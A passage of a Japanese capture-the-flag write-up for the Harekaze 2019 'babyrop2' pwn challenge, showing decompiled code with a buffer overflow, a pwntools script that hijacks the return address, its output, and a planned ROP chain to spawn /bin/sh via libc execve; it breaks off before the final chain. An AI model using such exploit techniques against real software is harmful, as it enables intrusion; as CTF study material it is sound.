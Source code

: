 64bit。
最近はもう64bitしか出ないのかなぁ。

```bash-statement
$ file ./babyrop2
./babyrop2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=fab931b976ae2ff40aa1f5d1926518a0a31a8fd7, not stripped
$
```

ghidoraでソースコードを見るとBaby ROPとほぼ同じだけどバッファサイズとread使ってる点が異なる。read使ってるってことはNULLでも読んでくれるのでROPが組みやすくなる。
```C
undefined8 main(void)
{
  ssize_t sVar1;
  undefined local_28 [28];
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  printf("What\'s your name? ");
  sVar1 = read(0,local_28,0x100);
  local_c = (int)sVar1;
  local_28[(long)(local_c + -1)] = 0;
  printf("Welcome to the Pwn World again, %s!\n",local_28);
  return 0;
}
```

手元で起動すると`"A" * 40`でsegmentation faultを起こせる。
mainのアドレスが0x40063aだったので入れてみると2回同じメッセージが表示されたので簡単にEIPの奪取は成功。


```bash-statement
import sys
import pwn

s = b"A" * 40
s += pwn.p64(0x40063a)

sys.stdout.buffer.write(s)
```

```
$ cat exploit_01.txt | ./babyrop2
What's your name? Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAA0!
What's your name? Bus error (core dumped)
saru@lucifen:~/wani-writeup/2019/05-harekaze/pwn-baby-rop-2$
```

### ROPを組む

EIP取れたけれどNXがenableなのでROPを組むことを考える。
戦略はlibcがついてるのでのlibc内のexecve関数と文字列`/bin/sh`を使ってシェルを起動するという手順。
1.  pop rdi ; ret: execveに渡す第1引数。/bin/shのアドレス。
2.  pop rsi ; pop r15 ; ret: execveに渡す第2引数。NULLで良い。
3.  libc上のexecveアドレスに飛ばす
